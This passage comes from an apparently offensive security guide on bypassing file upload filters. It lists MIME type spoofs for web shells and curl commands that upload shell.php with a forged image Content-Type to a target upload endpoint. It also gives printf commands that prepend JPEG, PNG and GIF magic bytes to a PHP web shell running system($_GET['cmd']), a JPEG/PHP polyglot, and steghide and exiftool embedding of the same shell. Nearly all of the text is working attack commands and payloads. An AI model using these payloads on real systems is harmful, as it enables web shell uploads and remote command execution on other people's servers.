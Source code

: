 #### Common MIME Type Spoofs
```bash
# Malicious File → Spoofed Content-Type
shell.php → image/jpeg
backdoor.asp → text/plain
payload.jsp → application/pdf
webshell.aspx → image/png
script.pl → text/html
```

#### Command-Line MIME Spoofing
```bash
# Using curl for MIME type bypass
curl -X POST -H "Content-Type: multipart/form-data" \
     -F "file=@shell.php;type=image/jpeg" \
     http://target.com/upload.php

# Alternative method with explicit Content-Type
curl -X POST -F "file=@malicious.php" \
     -H "Content-Type: image/jpeg" \
     http://target.com/upload.php
```

### 3. File Content Manipulation

#### Magic Bytes Injection
```bash
# Add legitimate file signatures before malicious code

# JPEG signature + PHP payload
printf '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01<?php system($_GET["cmd"]); ?>' > image.php

# PNG signature + PHP payload  
printf '\x89PNG\r\n\x1a\n<?php system($_GET["cmd"]); ?>' > image.php

# GIF signature + PHP payload
printf 'GIF89a<?php system($_GET["cmd"]); ?>' > image.php
```

#### Polyglot File Creation
```bash
# Create file that functions as both valid image and executable script
echo -e '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x01\x00H\x00H\x00\x00\xFF\xFE\x00\x13Created with GIMP\xFF\xDB\x00C\x00' > polyglot.php
echo '<?php if(isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>' >> polyglot.php
```

#### Steganographic Techniques
```bash
# Hide malicious code within legitimate files
steghide embed -cf legitimate_image.jpg -ef webshell.php
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
```
